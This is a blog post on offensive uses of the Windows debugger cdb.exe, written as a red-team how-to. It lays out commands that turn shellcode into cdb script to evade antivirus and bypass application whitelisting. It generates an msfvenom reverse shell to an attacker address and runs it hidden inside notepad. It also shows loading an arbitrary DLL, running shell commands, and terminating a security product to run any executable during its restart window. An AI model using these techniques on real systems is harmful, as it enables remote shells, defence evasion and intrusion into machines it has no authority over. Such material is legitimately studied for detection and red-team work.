 ```yaml
---
title: The Power of Cdb.exe
date: "2021-01-08"
---
```


Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting.

## Converting the Shellcode

I felt as though the unusual shellcode syntax may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert to the shellcode used in the article.

    #Input
    \x6a

    #Conversion formula
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(strip(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also great at evading AV scanning due to the unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

1. Generate shellcode using msfvenom

        msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

2. Download the aforementioned script and replace the shellcode with yours then run the script

        python3 script.py > test.wds

3. Send it over to the target machine and use the following command

        cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

![Shellcode-Run](./shellcode_run.gif)

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

![Notepad-Network](./notepad_tcp.png)

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach to a running process, it can be anything. I'll be attaching to notepad.

    #use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

![Launch-Executable](./launch_exe.gif)

Looking at Process Hacker we see cdb spawning the executable as a child process.

![Child-Process](./child_processes.png)

You can also hit CTRL+C then 'q' in the cdb console and it'll exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

![No-Parent](./no_parent.png)

# Running a DLL

You can use cdb to load a DLL. The DLL is loaded inside cdb not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because it requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

![DLL-Injection](./dll_injection.gif)

If we look at the DLLs loaded by cdb we see our inject DLL, d32lib.dll.

![Cdb-DLLs](./dll_cdb.png)

# Executing Shell Commands

Again, attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell hostname

![Shell-Cmd](./shell_command.png)


In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

![Cdb-Children-Processes](./spawn.png)

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

![Access-Denied](./access_denied.png)

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate and gave me a window of about 30 seconds to run any executable I want, until it started back up again.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.

